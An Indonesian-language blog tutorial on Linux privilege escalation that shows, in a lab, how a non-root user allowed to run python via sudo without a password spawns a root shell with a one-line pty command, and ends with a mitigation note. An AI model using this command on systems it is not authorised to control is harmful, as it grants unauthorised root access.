 ```yaml
---
title: "Privilages Escalation with Sudo"
date: 2019-06-21T13:26:36-04:00
categories:
- linux
tags:
- exploit
keywords:
- exploit
---
```


Pada dasarnya setiap sistem operasi dirancang untuk digunakan dengan banyak pengguna, tujuannya adalah agar sebuah sistem dapat digunakan oleh beberapa pengguna yang berbeda, adapun perbedaan hak akses atau kekuasaan yang dimiliki oleh setiap user. Contohnya saja di Linux ada user **root** yang memiliki hak akses tertinggi setara **Administrator** di Windows dengan user root atau Administrator jika di Windows ini kita bisa melakukan apa saja pada sistem Linux kita, berbeda dengan user biasa (Non root) yang memiliki kekuasaan terbatas.

Privilages Escalation adalah teknik yang digunakan untuk peningkatan hak akses dari user biasa (Non root) ke user yang lebih tinggi haknya seperti root di Linux dan administrator di Windows, biasanya teknik ini digunakan oleh para attacker untuk meningkatkan hak mereka setelah berhasil masuk ke sebuah sistem tetapi dengan user yang memiliki hak akses terbatas, biasanya privilages escalation dilakukan dengan memanfaatkan kesalahan kofigurasi yang dilakukan oleh seorang SysAdmin dan memanfaatkan BUG/celah yang ada pada sistem tersebut misalnya exploit kernel.

### Privilages Escalation memanfaatkan akses Sudo

Pada tulisan saya kali ini akan membahas Privilages Escalation dengan memanfaatkan akses sudo pada user Non-root di Linux, langsung saja kita uji coba.
Login ke mesin Linux kita dengan user non-root.

	adam@lab-01:~$ id
	uid=1000(adam) gid=1000(adam) groups=1000(adam),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1001(human)
	adam@lab-01:~$ whoami 
	adam
	adam@lab-01:~$ 

Sebagai contoh di atas, saya login ke Linux dengan user adam (non-root).
Cek akses sudo:

	adam@lab-01:~$ sudo -l
	sudo: unable to resolve host lab-01: Connection refused
	Matching Defaults entries for adam on lab-01:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
	,													
	User adam may run the following commands on lab-01:
	    (root) NOPASSWD: /usr/bin/python, /tmp/get_root.py
	adam@lab-01:~$ 

Terlihat jelas bahwa user adam bisa mengeksekusi `/usr/bin/python` tanpa password root, maka bisa kita manfaatkan untuk meningkatkan hak akses ke root dengan shell spawn python mode root.

get root with python:

	adam@lab-01:~$ sudo python -c 'import pty; pty.spawn("/bin/bash")'
	root@lab-01:/home/adam# 

BOOOOM!!! maka secara langsung kita mendapatkan akses root
<blockquote>
<p>Note: Ini terjadi karena user adam bisa menjalankan perintah python tanpa password, maka penanganannya adalah jangan berikan akese ke bahasa pemrograman apapun seperti python, PHP, Perl dll.</p>
</blockquote>